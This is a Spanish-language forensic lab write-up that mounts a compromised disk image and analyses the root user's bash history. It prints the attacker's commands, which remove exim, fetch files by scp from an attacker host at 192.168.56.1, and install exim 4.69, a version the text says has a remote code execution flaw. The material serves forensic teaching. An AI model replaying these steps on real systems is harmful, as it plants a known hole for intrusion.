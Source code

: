```bash
mkdir disco
sudo mount discoS.img disco
```
![mount](https://user-images.githubusercontent.com/47476901/151601607-9c2dfb92-f96d-4793-b7d6-42c71a9af47a.png)

<a name="analizarcomandos"></a>
### 3- Analizar historial comandos
Anteriormente nos indicaron que esta imagen del sistema tiene algo raro, puede que sea algo malicioso, para ello comprobaremos si accedieron al usuario root y si es así que podamos ver que comandos ejecutaron como usuario administrador.

```bash
cat root/.bash_history
```
![bash_history](https://user-images.githubusercontent.com/47476901/151601626-071bcd58-4727-430e-b672-ae151a8816f6.png)

### <b>¿Que hizo el atacante como administrador?</b>
<br>
**1- Elimina el programa exim del sistema**

```bash
apt-get remove exim4
apt-get remove exim4-base
apt-get remove exim4-daemon-light
dpkg -l | grep exim
apt-get remove exim4-config
dpkg --purge
apt-get remove exim
dpkg -l | grep exim
```

**2- Comprueba en que ruta se encuentra, crea una carpeta llamada exim4 y la abre. **

```bash
pwd
mkdir exim4
cd exim4/
```

**3- Con el comando scp copia todos los archivos mediante ssh del host del atacante en la nueva carpeta**

```bash
scp yom@192.168.56.1:/home/yom/temporary/exim4/* .
```

**4- Instala los paquetes vulnerables de exim que se descargó desde su maquina remotamente.**

<li>Esta version de Exim tiene una vulnerabilidad critica</li>
<li>Exim 4.69 Remote Code Execution via Buffer overflow (Desbordar la memoria)</li>

```bash
dpkg -i exim4_4.69-9_all.deb 
dpkg -i --ignore-depends=exim4-base,exim4-daemon-light exim4_4.69-9_all.deb 
dpkg -i exim4-base_4.69-9_i386.deb 
dpkg -i exim4-config_4.69-9_all.deb 
dpkg -i exim4-base_4.69-9_i386.deb 
dpkg -i exim4-daemon-light_4.69-9_i386.deb 
```
